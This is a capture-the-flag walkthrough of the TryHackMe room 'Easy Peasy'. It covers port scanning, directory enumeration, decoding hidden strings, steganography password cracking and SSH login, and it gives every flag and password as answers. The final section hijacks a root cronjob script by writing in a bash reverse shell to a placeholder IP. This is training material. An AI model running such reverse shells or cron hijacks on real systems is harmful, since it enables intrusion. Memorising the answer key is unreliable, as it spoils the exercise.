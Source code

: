 07.09.2020 | Felix Strobel ([relevant](https://tryhackme.com/p/relevant))

# Easy Peasy

  - [Task 1](#task-1)
  - [Task 2](#task-2)

## Task 1

<i>First we should check how many ports are open. To do so we will use [nmap](https://nmap.org/). We will use the `-p-` flag to scan all ports.<br>
The full command looks like this: `nmap -p- -sV MACHINE_IP`<br>
This can take a long time but nmap returns us the following.</i>

<pre>
PORT      STATE SERVICE VERSION
<b>80/tcp</b>    open  http    nginx <b>1.16.1</b>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
<b>6498/tcp</b>  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
<b>65524/tcp</b> open  http    <b>Apache</b> httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

1. How many ports are open?<br>
   `3`

<i>To detect the version of [nginx](https://nginx.org) we look at the output above.</i>

2. What is the version of nginx?<br>
   `1.16.1`

<i>The output above also entails the answer to the last question.</i>

3. What is running on the highest port?<br>
   `Apache`

## Task 2

<i>We can use [gobuster](https://github.com/OJ/gobuster) to search for hidden directories. By using the `-u` flag we can specify a url to attack. As a wordlist we will use the [`common.txt`](https://gitlab.com/kalilinux/packages/dirb/-/blob/kali/master/wordlists/common.txt).<br>
The command: `gobuster dir -u "http://MACHINE_IP" -w ./common.txt`</i>

<pre>
<b>/hidden</b> (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
</pre>

<i>When visiting the `/hidden` directory there is only a picture and the source code also does not help us. But that cannot be the end. Let's continue the search and perform another gobuster search on the `/hidden` directory.<br>
The full command: `gobuster dir -u "http://MACHINE_IP/hidden" -w ./common.txt`</i>

<pre>
/index.html (Status: 200)
<b>/whatever</b> (Status: 301)
</pre>

<i>The `/whatever` directory looks interesting. By visiting the page there again is just a picture. But looking at the source code we can see a hidden p-tag with a `base64` looking string in it. Let's decode this string: `echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`</i>

1. What is flag 1?<br>
   `flag{f1rs7_fl4g}`

<i>Now looking at the Apache server we can see the default page. We could make another gobuster scan to find maybe some interesting files or directories.<br>
The full command: `gobuster dir -u "http://MACHINE_IP:65524" -w ./common.txt`<br>
Gobuster returns nothing really special but let's look at the `robots.txt`. At the User-Agent field there is a string, looking like a `MD5` hash or somehting like that.</i>

<pre>
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
<b>/robots.txt</b> (Status: 200)
/server-status (Status: 403)
</pre>

<i>To crack the hash I tried many websites but all of them haven't worked for me. Except one: [md5hashing.net](https://md5hashing.net). I inserted the hash, waiting. And the website returned me the second flag.</i>

2. What is flag 2?<br>
   `flag{1m_s3c0nd_fl4g}`

<i>Looking back to the Apache default page source code we can see the third flag in plain text. If you cannot find the flag at once, just keep searching.</i>

3. What is flag 3?<br>
   `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

<i>The next question tells us to search for another hidden diretory. But not so fast. When I looked at the default page I also found another message: `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`. Should that mean that the string is `base` encoded? Let's try to decode it. A great website to test something like this is [CyberChef](https://gchq.github.io/CyberChef). I tried every `from base...` and got a hit with `base62`.</i>

4. What is the hidden directory?<br>
   `/n0th1ng3ls3m4tt3r`

<i>When visiting the hidden directory we can see another picture, another hash in the source code. The picture looks interesting because it is not stored on pixabay like the other pictures before. And its name maybe should mislead us. Maybe there is a hidden file inside the picture. Let's download the picture by using `wget`.<br>
The command: `wget "http://MACHINE_IP:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg"`<br>
Now we can try [steghide](http://steghide.sourceforge.net) on this picture. With `-sf` we can set a file to extract from.<br>
The full command: `steghide extract -sf binarycodepixabay.jpg`<br>
But it prompts for a password which we don't have. Remember, there was this hash on the page and the room provides a wordlist. After downloading the wordlist we can start up [stegcracker](https://github.com/Paradoxis/StegCracker) to crack the password.<br>
The command: `stegcracker binarycodepixabay.jpg easypeasy.txt`</i>

<pre>
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: mypasswordforthatjob
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
<b>mypasswordforthatjob</b>
</pre>

5. What is the password from the hash?<br>
   `mypasswordforthatjob`

<i>We can `cat` out the `binarycodepixabay.jpg.out` and see the following.</i>

<pre>
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
</pre>

<i>A username and a password encoded in binary...interesting. On [RapidTables](https://www.rapidtables.com/convert/number/binary-to-ascii.html) we can easily paste the binary in and convert it to plain text.</i>

6. What is the password to login to the machine via SSH?<br>
   `iconvertedmypasswordtobinary`

<i>We have all credentials for an ssh login. After logging in we are in the home directory and can `cat` the `user.txt`.</i>

<pre>
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
</pre>

<i>The flag is 'rotated'. That means we should decode the flag with `ROT13`. I used an [online tool](https://gc.de/gc/rot13).</i>

7. What is the user flag?<br>
   `flag{n0wits33msn0rm4l}`

<i>Now we have to become root to read the root flag. Looking at the cronjobs with `cat /etc/cronjobs` shows a cronjob running as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
<b>* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh</b>
</pre>

<i>When we look at the `.mysecretcronjob.sh` we have read and write permissions. That means we can execute commands as root. To get a reverse shell we can copy one from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Now we have to `nano .mysecretcronjob.sh` and paste in our reverse shell.</i>

<pre>
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/8080 0>&1
</pre>

<i>And we have to listen for a connection using `netcat -lnvp 8080`. It does not need much time and we get a connection and become root. we can `cd` into the `/root` diretory and `ls -a` list all files. There is a `.root.txt` file. Because we are root we can simply type `cat .root.txt` and get the final root flag.</i>

8. What is the root flag?<br>
   `flag{63a9f0ea7bb98050796b649e85481845}`
